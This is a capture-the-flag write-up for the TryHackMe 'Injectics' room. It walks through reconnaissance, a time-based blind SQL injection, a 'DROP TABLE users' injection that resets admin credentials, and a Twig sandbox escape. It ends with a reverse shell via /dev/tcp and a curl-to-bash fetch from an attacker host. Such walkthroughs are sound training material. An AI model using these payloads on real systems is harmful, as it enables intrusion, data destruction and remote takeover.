

# Injectics

> [Injectics](https://tryhackme.com/r/room/injectics) - Medium

**Table of Contents**

- [Injectics](#injectics)
- [Reconnaissance](#reconnaissance)
  - [Analyzing the website](#analyzing-the-website)
- [Exploitation](#exploitation)
  - [First SQLi (access to "dev" dashboard)](#first-sqli-access-to-dev-dashboard)
  - [Second SQLi (access to "admin" dashboard)](#second-sqli-access-to-admin-dashboard)
    - [Rabbit Holes](#rabbit-holes)
    - [Access](#access)
  - [Testing for SSTI](#testing-for-ssti)
  - [Exploiting the SSTI (shell)](#exploiting-the-ssti-shell)

# Reconnaissance

The first step, as always, is to detect the services exposed on the target:
```
$ nmap -sS -sV -Pn $TARGET

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Analyzing the website

We start navigating the website and to understand its structure we can use a tool like `ffuf` with a couple of wordlists:
```
# common.txt was enough
ffuf -u http://$TARGET/FUZZ -w /usr/share/wordlists/dirb/common.txt
```

So we have:
```
- /index.php
- /login.php
- /adminLogin007.php
- /phpmyadmin 
- /vendor (403)
- /flags (403)
- /css   (403)
- /js    (403)
- /javascript (403)
```

I also took note of the JavaScript libraries used: Bootstrap 4.5.2, Popper (the drug?) 2.5.4, and jQuery 3.5.1, but they weren't useful.

While exploring the source code of `index.php`, I found some interesting details about the website's creators and a `mail.log` file.
The first thing I did wasn't navigating to `http://$TARGET/mail.log`, instead I tried to brute force the password of `dev@injectics.thm`; reading this before could have really saved me a lot of time.


```
# mail.log
From: dev@injectics.thm
To: superadmin@injectics.thm
Subject: Update before holidays

Hey,
Before heading off on holidays, I wanted to update you on the latest changes to the website. I have implemented several enhancements and enabled a special service called Injectics. This service continuously monitors the database to ensure it remains in a stable state.

To add an extra layer of safety, I have configured the service to automatically insert default credentials into the `users` table if it is ever deleted or becomes corrupted. This ensures that we always have a way to access the system and perform necessary maintenance. I have scheduled the service to run every minute.
Here are the default credentials that will be added:

| Email                     | Password 	              |
|---------------------------|-------------------------|
| superadmin@injectics.thm  | superSecurePasswd101    |
| dev@injectics.thm         | devPasswd123            |

Please let me know if there are any further updates or changes needed.

Best regards,
Dev Team

dev@injectics.thm
```

There is a lot of information:
- We have **default credentials** for the developer and the administrator.
- We know there is a **user table** with *email* and *password* columns.
- We know there is a **self-healing mechanism** that triggers the default credentials (...)

Continuing exploring the website we see the login on `login.php` is handled client-side by the following JavaScript code; what are the first things you notice? Personally, I saw the request to `functions.php` and an array with SQL keywords; however after some SQL injection attempts on the "password" parameter I noticed the line of code `username.includes(keyword)` screaming "you are doing it wrong".
```javascript
$("#login-form").on("submit", function(e) {
    e.preventDefault();
    var username = $("#email").val();
    var password = $("#pwd").val();

	const invalidKeywords = ['or', 'and', 'union', 'select', '"', "'"];
            for (let keyword of invalidKeywords) {
                if (username.includes(keyword)) {
                    alert('Invalid keywords detected');
                    return false;
                }
            }

    $.ajax({
        url: 'functions.php',
        type: 'POST',
        data: {
            username: username,
            password: password,
            function: "login"
        },
        dataType: 'json',
        success: function(data) {
            if (data.status == "success") {
                if (data.auth_type == 0){
                    window.location = 'dashboard.php';
                }else{
                    window.location = 'dashboard.php';
                }
            } else {
                $("#messagess").html('<div class="alert alert-danger" role="alert">' + data.message + '</div>');
            }
        }
    });
});
```

# Exploitation

## First SQLi (access to "dev" dashboard)

The request at `functions.php` is shown in the figure below; the first attempts with `sqlmap` failed because I made a direct request to the endpoint or because I tested the "password" parameter, however some trials I got a **Time-Based SQLi**.


```
sqlmap \
    -u http://$TARGET/functions.php \
    --data="username=somemail%40gmail.com&password=123456&function=login" \
    -p "username" \
    --method=POST \
    --cookie="PHPSESSID=ooi4eckq3k748ed6ed2f6m0bhv" \
    --headers="User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0, Referer: http://$TARGET/login.php" \
    --level=4

...
sqlmap identified the following injection point(s) with a total of 1754 HTTP(s) requests:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 RLIKE time-based blind
    Payload: username=somemail@gmail.com' RLIKE SLEEP(5)-- zljr&password=123456&function=login
---
[19:01:49] [INFO] the back-end DBMS is MySQL
```

Since the payload can't be directly inserted into the form, we can use Burp Suite to intercept the request, bypass the client-side filter, and gain access as 'dev'.


## Second SQLi (access to "admin" dashboard)

### Rabbit Holes

Now let me tell you what I did wrong:

1. I tried to brute force `adminLogin007.php` with "dev@injectics.thm", with a deeper exploration (trying to access `mail.log`) I could have saved some time.
2. I tried to access `phpMyAdmin` with the default credentials and with the "dev" username, actually this was something good I did, even if didn't yield any result.
3. XSS Injection on `edit_leaderboard.php` page found after accessing the "dev" account; the idea was stupid because there was a really low chance to use it to access the target machine, however it yielded some informations about how editing the leaderboard worked.
4. SQL Injection on `adminLogin007.php`, because let's be honest, why not.

### Access

Clicking the "Edit" button in the `dashboard.php` page we get redirected to `edit_leaderboard.php` page, where we can update the values in the table in the `index.php` page; clicking "Update" sends a request with 5 parameters: three are gold, silver and bronze, the other two are `rank` and `country`.


As I said, the first thing I attempted was a XSS, what I learnt from it is that the `country` parameter is useless, but the `rank` parameter is used to decide what row in the table should be changed; There are two places where `rank` is used:
1. select what entry to change (GET /edit_leaderboard.php?rank=2&country=)
2. update an entry in the index.php table (POST /edit_leaderboard.php)

Obviously my first attempt was the first choice, but thinking about it, this was another stupid attempt; as we saw in `mail.log` there is a *self-healing mechanism* that changes the credentials for the administrator to some credentials we know. 

After some attempts I found a way to make it happen using the payload `1; DROP TABLE users -- -`. We add it to the hidden input in the html page and click "Update"; once we see the database is down, we go to `adminLogin007.php` and use the credentials **superadmin@injectics.thm:superSecurePasswd101**.




## Testing for SSTI

Clicking on the "Profile" button we get redirected to the page `update_profile.php` where we can modify the first name of the administrator; this value is reflected on the `dashboard.php` as seen below.


Cool. This could mean we have another injection vulnerability, one of this could be a Server Side Template Injection (SSTI); to test it we can use common [payloads](https://github.com/payloadbox/ssti-payloads). We can see that the first payload, `{{3*3}}`, resulted in "Welcome, 9!"; by using `{{3*'3'}}` we can tell that the template engine is [Twig](https://twig.symfony.com/).
> I referred to [Portswigger](https://portswigger.net/web-security/server-side-template-injection#how-do-server-side-template-injection-vulnerabilities-arise) to determine the engine is Twig.


After trying some common payloads I found an interesting error get reflected on the dashboard; it's talking about *clousres*, *filters* and a sandbox mode. I don't know much PHP, so I needed to do some research to understand what was going on; without getting in too much detail, Twig is preventing us from executing unsafe code, so we need to bypass the sandbox.
```
{{ ['id']|filter('system') }} 

The callable passed to "filter" filter must be a Closure in sandbox mode in "__string_template__8a0a34f3ef7bb4027995c4af464e338fdb11b6a04e25524a117eb8284867d004" at line 1.
```

Searching "twig SSTI bypass sandbox" I found [**CVE-2022-23614**](https://nvd.nist.gov/vuln/detail/CVE-2022-23614), a vulnerability where the `sort` filter doesn't properly enforce the sandbox. At this point I tried the PoC payload `{{ ['id', ""]|sort('system') }}`, but I only get "Welcome,  Array!"; this is because the way `system` redirects its output, changing it to `{{ ['id', ""]|sort('passthru') }}` works properly, as can be seen below.


## Exploiting the SSTI (shell)

The final step is obtaining a reverse shell. I made several attempts before getting it right, I ended up creating a `shell.sh` file that is executed on the server to connect back to us:
```bash
#!/bin/bash
# shell.sh
sh -i >& /dev/tcp/$ATTACKER_IP/4242 0>&1
```

To get a shell:
1. Run `nc -lnvp 4242` on attacker machine.
2. Run `python -m http.server` to make the shell available.
3. Use the payload `{{ ['curl http://$ATTACKER_IP:8000/shell.sh|bash', ""]|sort('passthru') }}` on `update_profile.php`.
4. Reload the dashboard.
   


> From there I found the flag without further exploitation.